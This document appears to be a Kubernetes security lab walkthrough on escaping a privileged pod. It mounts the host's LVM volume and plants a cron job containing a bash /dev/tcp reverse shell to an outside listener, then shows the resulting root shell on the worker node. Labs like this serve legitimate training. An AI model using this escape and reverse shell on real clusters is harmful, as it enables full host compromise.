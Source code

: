 # Privileged Pod

This scenario simulates a pod that was configured as privileged. You can connect to this pod using SSH:

```bash
ssh pwned@10.10.20.2 -p 30025 # Password: pwned
```

Privileged containers have a lot of control over the host they run on. Practically, privileged containers can do almost every action that can be performed directly on the host so scaping to the Kubernetes worker is possible. In order to abuse this, root access to the pod container is needed so the SSH pod provided allows the pwned user to use `sudo`.

How you know that that a container is privileged? Well you could use `amicontained` to see that you have all the capabilities. Also, since the container has access to all the devices attached to the host system you would see a lot of devices under the `/dev` directory instead of just a couple of them:

```bash
wget https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64 -O amicontained
chmod u+x amicontained
./amicontained
```

As said in another scenarios, you can continue reading for a guided exploitation or research for yourself!

## Escape time!

Now you know how dangerous these kind of containers are let's escape from our SSH pod. The approach in this case is to target the host filesystem, remember we have access to all the host's attached devices, disks included!

> [!NOTE]
> By default, seccomp feature is disabled for Kubernetes clusters but hardening guides usually include its activation to limit the system calls a container can use. In this scenario, seccomp is disabled but you may find environments where exploiting privileged containers is not as easy because of this security measure.

A simple `df` command should be enouth to identify our target:
```
ssh-pod-7954b5fbd4-b2hxl:/# df -h
Filesystem                         Size  Used Avail Use% Mounted on
overlay                             62G  7.0G   52G  12% /
tmpfs                               64M     0   64M   0% /dev
shm                                 64M     0   64M   0% /dev/shm
tmpfs                              190M  2.1M  188M   2% /etc/hostname
/dev/mapper/ubuntu--vg-ubuntu--lv   62G  7.0G   52G  12% /etc/hosts
tmpfs                              1.4G   12K  1.4G   1% /run/secrets/kubernetes.io/serviceaccount
```

The interesting one is `/dev/mapper/ubuntu--vg-ubuntu--lv`, that is where the underneth worker node filesystem is. 

Hyper-V uses LVM and that is why it has that weird name. Normally, the device is something like `/dev/sda1` and you can just mount it wherever you want but in this case, since it is a LVM volume, we only have information about the symolic link name that points to the real block file. Look for `/dev/dm-*` files, these represent LVM logical volumes, in this scenario only one will exists so just mount it:

```bash
sudo mkdir /mnt/host_node
sudo mount /dev/dm-0 /mnt/host_node
```

Now you have full access to the node filesystem! From here there are plenty of options to get RCE into the node, in this case a reverse shell will be executed every minute configuring a cron job in `/etc/crontab`:

```
* * * * * root bash -c "bash -i >& /dev/tcp/192.168.*.*/8000 0>&1"
```

Preparing a listener is enough to get a shell to the pod worker node as root:

```
anthares101@WSL:~$ nc -lnvp 8000

Listening on 0.0.0.0 8000
Connection received on 192.168.*.* 56776
bash: cannot set terminal process group (12229): Inappropriate ioctl for device
bash: no job control in this shell
root@aramis:~#
```

## References

- https://kubernetes.io/docs/tasks/configure-pod-container/security-context/
- https://www.cncf.io/blog/2020/10/16/hack-my-mis-configured-kubernetes-privileged-pods/
